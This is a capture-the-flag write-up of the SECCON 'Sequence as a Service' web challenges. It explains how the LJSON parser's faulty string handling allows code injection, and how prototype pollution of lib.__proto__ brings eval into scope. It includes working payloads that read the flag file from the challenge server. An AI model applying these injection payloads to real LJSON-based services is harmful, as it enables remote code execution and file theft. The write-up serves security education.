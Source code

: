 ## Sequence as a Service

**Authors**: [bazumo](https://twitter.com/bazumo), solved together with [Nspace](https://twitter.com/_MatteoRizzo)

**Tags**: web

**Points**: 205 (20 solves)

> I've heard that SaaS is very popular these days. So, I developed it, too.
> Note: It is possible to solve SaaS 2 even if you don't solve SaaS 1.

This challenge had two parts, we solved the second one first and then found a likely unintended solution for both parts.

In this challenge, we were given the source of a web application. In short, on the website we could select a sequence (i.e factorial numbers) and get the n'th number of the sequence. The sequence was described in LJSON and the stringified version of it was sent together with n to the server.

### LJSON

LJSON is a language that tries to extend JSON to support pure functions.
```javascript

// The object that provides the functions that we can use in LJSON
const lib = {
  "+": (x, y) => x + y,
  "-": (x, y) => x - y,
  "*": (x, y) => x * y,
  "/": (x, y) => x / y,
  ",": (x, y) => (x, y),
  "for": (l, r, f) => {
    for (let i = l; i < r; i++) {
      f(i);
    }
  },
  "set": (map, i, value) => {
    map[i] = value;
    return map[i];
  },
  "get": (map, i) => {
    return typeof i === "number" ? map[i] : null;
  },
  "self": () => lib,
};

// LJSON can be stringified like this, unlike JSON is supports lamda functions. 
const src = LJSON.stringify(($, n) =>
  $(",",
    $(",",
      $("set", $("self"), 0, 1),
      $("for",
        0,
        n,
        i => $("set",
          $("self"),
          0,
          $("*", $("get", $("self"), 0), 2),
        ),
      ),
    ),
    $("get", $("self"), 0),
  ),
);

// src == "(a,b)=>(a(\",\",a(\",\",a(\"set\",a(\"self\"),0,1),a(\"for\",0,b,(c)=>(a(\"set\",a(\"self\"),0,a(\"*\",a(\"get\",a(\"self\"),0),2))))),a(\"get\",a(\"self\"),0)))"


// The server would spawn a new node process and run our provided LJSON with the lib and our n.
LJSON.parseWithLib(lib, src)(n)
```

LJSON works by creating javascript code from the src that then gets executed via eval with lib as an argument.

Diffing the two challenges, we concluded that the solution must include the `self` function of lib as it was absent in the second part.

After trying different things and accidentally solving part 2 we started to question wether we shouldn't try to exploit the parser instead, which would solve both challenges and was probably not intended. Looking at the flag submission times of the other teams, there seemed to be quite a few who solved both challenges around the same time, indicating that their exploit targeted the parser.

After playing around with `"` and `\` characters, we quickly found that the parser didn't handle strings correctly and it was possible to eval whatever we wanted.

Our final payload was:

```python
import requests

r = requests.get('http://sequence-as-a-service-1.quals.seccon.jp:3000/api/getValue', params={
    'sequence': """(a,b)=>(a("set",{},"asd","\\\\\\"), fs = require('fs'), text = fs.readFileSync('/flag.txt','utf8'), text})) //"))""",
    'n': 3,
})

print(r.text)

```


FLAG: `SECCON{45deg_P4sc4l_g3Ner4tes_Fib0n4CCi_5eq!}`


### Sequence as a Service 2

SaaS 2 could be solved the same way, but we likely found the intended solution first. The code was almost identical to 1, except for `self` being gone and parsing and evaling 2 sequences instead of one.

The exploit goes as follows:

In the first sequence:
1. get `__proto__` of lib by using set (setting `__proto__` doesn't actually set it)
2. set `eval` of `lib.__proto__` to the number that [`toName` ](https://github.com/MaiaVictor/LJSON/blob/master/LJSON.js#L397) would convert to `eval` again.

```
(a,b)=>(a(",",a("get",{},"eval"),a("set",a("set",{},"__proto__","asdf"),"eval",193886)))
```

In the second squence:
1. use `eval` to execute code, the parser will allow it because it thinks `eval` is in the scope now because of the prototype pollution.

```
eval("let s = function(s){const fs = require('fs'); var text = fs.readFileSync('flag.txt','utf8'); return text }; s;")
```

FLAG: `SECCON{45deg_P4sc4l_g3Ner4tes_Fib0n4CCi_5eq!}`

### Conclusion

We thought the challenges was quite cool. Javascript is fun!